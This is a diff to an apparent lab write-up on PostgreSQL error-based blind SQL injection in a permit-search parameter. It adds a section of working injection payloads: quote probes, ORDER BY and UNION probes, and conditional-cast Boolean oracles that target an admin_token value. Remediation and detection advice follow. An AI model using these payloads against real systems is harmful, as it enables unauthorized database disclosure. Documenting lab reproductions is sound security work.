

Update DropCall reproduction commands

Changed region(s): [[0.0932, 0.152, 0.6834, 0.2128]]

diff --git a/content/writeups/webverse/dropcall-postgresql-error-based-blind-sql-injection/index.md b/content/writeups/webverse/dropcall-postgresql-error-based-blind-sql-injection/index.md
@@ -1,7 +1,7 @@
 ---
 title: "WebVerse DropCall — PostgreSQL Error-Based Blind SQL Injection"
 date: 2026-08-03T00:00:00+02:00
-lastmod: 2026-08-03T00:00:00+02:00
+lastmod: 2026-08-11T00:00:00+02:00
 draft: false
 author: "Mdk22"
 description: "A Caido-verified PostgreSQL blind SQL injection used a repeatable 200/500 error oracle to recover a sensitive configuration value."
@@ -30,6 +30,7 @@ case_classification: "PostgreSQL Error-Based Blind SQL Injection"
 case_family: "server-side-injection"
 case_evidence:
   - "Caido"
+  - "Chromium"
   - "Python"
 case_verified: true
 case_caido: true
@@ -50,7 +51,7 @@ methods:
   - "Authoritative Status Check"
 ---
 
-> **Publication note:** This article documents an authorized educational lab reproduction completed on 3 August 2026. The current-instance flag is represented as `WEBVERSE{REDACTED}`, reusable session data is excluded, and the public screenshots contain only the evidence needed to support the finding.
+> **Publication note:** This article documents an authorized educational lab reproduction completed on 3 August 2026. The temporary challenge host, reusable cookies, private artifact paths, and literal current-instance flag are excluded. The public result is represented as `WEBVERSE{REDACTED}`.
 
 ## Executive Summary
 
@@ -75,7 +76,7 @@ Controlled structural tests established the full issue. `ORDER BY 1` completed w
 | Injectable parameter | `park` |
 | Database behavior | PostgreSQL-compatible conditional errors |
 | Primary weakness | CWE-89 — SQL Injection |
-| Evidence | Caido Replay, focused Python extraction, authoritative solved state |
+| Evidence | Caido Replay, focused Python extraction, Chromium solved-state confirmation |
 
 ### Verified Attack Chain
 
@@ -239,7 +240,124 @@ The recovered current-instance value was submitted to WebVerse. The platform acc
 
 **Figure 12 — Authoritative solved state.** Platform acceptance independently confirms that the extracted value was correct for this instance.
 
-## 11. Vulnerability Classification
+## 11. Reproduction Commands and Payloads
+
+This section preserves the copyable reproducibility layer from the fresh authorized reproduction. Every block below is source-grounded. Temporary hosts and reusable cookies are not published; `<LAB_HOST>` is the only host placeholder. The Caido and browser figures remain the proof layer.
+
+No independent curl command was executed during this reproduction, so this article does not claim curl verification or add a synthetic curl command.
+
+### Baseline Requests
+
+`P-01` establishes the legitimate request contract and normal permit-search behavior.
+
+```http
+GET /permits?park=yosemite HTTP/1.1
+Host: <LAB_HOST>
+```
+
+Expected result: HTTP 200 with five active Yosemite permit records. This establishes normal behavior; it does not by itself demonstrate SQL injection.
+
+`P-02` is the benign negative control:
+
+```http
+GET /permits?park=__dropcall_no_match_7f29c1__ HTTP/1.1
+Host: <LAB_HOST>
+```
+
+Expected result: HTTP 200 with `No active permits for that park`, not the search-failure page. An empty result is therefore normal application behavior.
+
+### Verified Proof Payloads
+
+`P-03` is the initial quote probe. Caido encoded the apostrophe as `%27` in the request target.
+
+```text
+yosemite'
+```
+
+```text
+park=yosemite%27
+```
+
+Expected result: HTTP 500 with `Search temporarily unavailable`. This is an SQL-context signal, not final proof alone.
+
+`P-04` and `P-05` establish the adjacent projection boundary. The trailing comment space is represented by the final `%20` in the encoded forms.
+
+```text
+yosemite' ORDER BY 1 --
+```
+
+```text
+park=yosemite%27%20ORDER%20BY%201%20--%20
+```
+
+Expected result: HTTP 200 on the normal no-results path.
+
+```text
+yosemite' ORDER BY 2 --
+```
+
+```text
+park=yosemite%27%20ORDER%20BY%202%20--%20
+```
+
+Expected result: HTTP 500 with the generic failure page. Together the two controls support a one-column projection; they do not identify original column names, types, or database privileges.
+
+`P-06` validates the exact-width UNION expression:
+
+```text
+yosemite' UNION SELECT NULL --
+```
+
+```text
+park=yosemite%27%20UNION%20SELECT%20NULL%20--%20
+```
+
+Expected result: HTTP 200 on the normal no-results path. This confirms the one-column UNION shape, not in-band output.
+
+`P-07` and `P-08` bind the conditional-error Boolean oracle. Each was repeated once with the same HTTP outcome.
+
+```sql
+-- P-07: TRUE control -> HTTP 200
+yosemite' UNION SELECT CASE WHEN (1=1) THEN 1 ELSE CAST(current_database() AS integer) END --
+```
+
+```sql
+-- P-08: FALSE control -> HTTP 500
+yosemite' UNION SELECT CASE WHEN (1=2) THEN 1 ELSE CAST(current_database() AS integer) END --
+```
+
+The true branch returns an integer; the false branch deliberately selects the failing cast. The 200/500 mapping is the oracle, not a direct query-output channel.
+
+`P-09` confirms only the known objective-relevant relation, without broad enumeration:
+
+```sql
+yosemite' UNION SELECT CASE WHEN (EXISTS(SELECT 1 FROM information_schema.tables WHERE table_schema='public' AND table_name='internal_config')) THEN 1 ELSE CAST(current_database() AS integer) END --
+```
+
+Expected result: the TRUE channel (HTTP 200). This establishes that `public.internal_config` exists in the fresh instance, not any row value.
+
+`P-10` identifies the target key and public flag format while keeping the value undisclosed:
+
+```sql
+yosemite' UNION SELECT CASE WHEN (EXISTS(SELECT 1 FROM public.internal_config WHERE k='admin_token' AND left(value,9)='WEBVERSE{' AND right(value,1)='}')) THEN 1 ELSE CAST(current_database() AS integer) END --
+```
+
+Expected result: the TRUE channel (HTTP 200), confirming the `admin_token` key and `WEBVERSE{...}` shape.
+
+`P-11` is the exact scalar query used by the bounded Python extractor:
+
+```sql
+SELECT value
+FROM public.internal_config
+WHERE k = 'admin_token'
+LIMIT 1
+```
+
+`P-12` remains described rather than published as a full script: the executed extractor rechecked the true and false controls, used `get_byte(convert_to(..., 'UTF8'), offset)` with binary-search comparisons and exact-equality checks, and stopped at the closing flag delimiter. It queried only this scalar, completed in 301 requests, and never published the literal result, local invocation, temporary host binding, or private artifact paths.
+
+The decisive proof remains the WebVerse solved-state. Copyable payloads support reproducibility; they do not replace the repeated oracle controls, source evidence, or authoritative platform acceptance.
+
+## 12. Vulnerability Classification
 
 | Attribute | Verified value |
 | --- | --- |
@@ -257,7 +375,7 @@ The recovered current-instance value was submitted to WebVerse. The platform acc
 
 No secondary CWE is required to establish the central weakness. Sensitive configuration disclosure is recorded as an observed pattern and impact, while CWE-89 remains the direct root-cause classification.
 
-## 12. False-Positive Controls
+## 13. False-Positive Controls
 
 The finding rests on multiple independent controls rather than a single anomalous response:
 
@@ -272,13 +390,13 @@ The finding rests on multiple independent controls rather than a single anomalou
 
 This chain supports SQL injection and targeted data disclosure. It does not support claims of write access, operating-system command execution, unrestricted database compromise, or access to data that was not tested.
 
-## 13. Impact
+## 14. Impact
 
 An unauthenticated user who can reach the permit-search endpoint can use database syntax in `park` to infer Boolean facts and recover sensitive application configuration. In the authorized reproduction, the confirmed impact was read access to the `admin_token` value required to solve the challenge.
 
 In a production system, the impact would depend on the database account's permissions and the data reachable from the vulnerable query. Plausible consequences include disclosure of credentials, tokens, customer data, or internal operational metadata. Those broader outcomes were not tested here and are not presented as confirmed effects.
 
-## 14. Remediation
+## 15. Remediation
 
 ### Parameterize the Query
 
@@ -300,7 +418,7 @@ Return a consistent application response for backend query failures and record t
 
 Alert on repeated requests containing SQL metacharacters, UNION/ORDER BY probes, rapidly changing predicates, or high-frequency 200/500 alternation. Monitoring is a detection layer, not a replacement for safe query construction.
 
-## 15. Validation After the Fix
+## 16. Validation After the Fix
 
 After remediation, repeat the same bounded controls:
 
